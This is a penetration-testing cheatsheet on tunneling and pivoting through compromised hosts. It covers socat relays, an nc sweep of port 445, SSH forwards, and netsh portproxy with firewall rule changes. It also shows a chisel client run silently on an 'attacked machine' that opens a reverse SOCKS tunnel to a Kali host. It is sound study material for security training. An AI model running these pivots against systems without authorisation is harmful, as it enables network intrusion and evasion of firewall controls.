






# Tunneling and Port Forwarding Cheatsheet

Useful tool:
* [sShuttle](https://github.com/sshuttle/sshuttle)
* [chisel](https://github.com/jpillora/chisel/releases)

**Port Redirection with Socat**

On the attacked machine:

```bash
socat -ddd TCP-LISTEN:PORT,fork TCP:REMOTE_IP:REMOTE_PORT
```

Ping Sweep Bash OneLiner: 

```bash
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

### SSH Tunneling

* **Local Port Forwarding**: -L IPADDRESS:PORT:IPADDRESS:PORT
  ```bash
  ssh [-N] -L 0.0.0.0:4455:10.10.10.10:445 user@172.16.2.2
  ```
  
* **Dynamic Port Forwarding**: -D IPADDRESS:PORT
  ```bash
  ssh [-N] -D 0.0.0.0:9999 user@172.16.2.2
  ```
  
* **Remote Port Forwarding**: -R IPADDRESS:PORT:IPADDRESS:PORT
  ```bash
  ssh [-N] -R 127.0.0.1:2345:10.10.10.10:5432 kali@192.168.119.162
  ```
  
* **Remote Dynamic Port Forwarding**: -R PORT
  ```bash
  ssh [-N] -R 9898 kali@192.168.119.162
  ```
  

**NetSh Utility**

`NetSh` requires *administrative privileges* to set a port forwarding.



```cmd
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

If the port 2222 results filtered we issue this command:

```cmd
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```
```powershell
PS> New-NetFirewallRule -DisplayName 'PortProxy-V2' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 2222
```

And remove the rules once work is done:

* Remove Rule on Port 2222: `netsh advfirewall firewall delete rule name="port_forward_ssh_2222"`
* Remove Port Forwarding Rule: `netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.162.64`

Show established portproxies: 
```cmd
netsh interface portproxy show all
```

### Chisel

*The traffic between the Chisel client and server is all HTTP-formatted*



Chisel commands

* **Server on kali machine**: `chisel server --port 8080 --reverse`
* **Client on attacked machine**: `/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &`

**SSH with Proxy Command**

```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```

Packet Inspection: `sudo tcpdump -nvvvXi tun0 tcp port 8080`